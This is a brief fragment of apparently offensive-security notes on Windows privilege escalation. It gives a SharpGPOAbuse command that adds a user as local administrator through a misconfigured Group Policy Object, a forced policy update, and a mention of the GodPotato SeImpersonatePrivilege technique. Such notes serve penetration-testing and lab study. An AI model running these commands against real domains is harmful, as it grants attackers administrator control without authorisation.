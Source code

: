 ## SharpGPOAuse
Adding Local Admin
```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Vulnable GPO"
```

force a policy update
```
gpupdate /force
```

## godpotato
SeImpersonatePrivilege
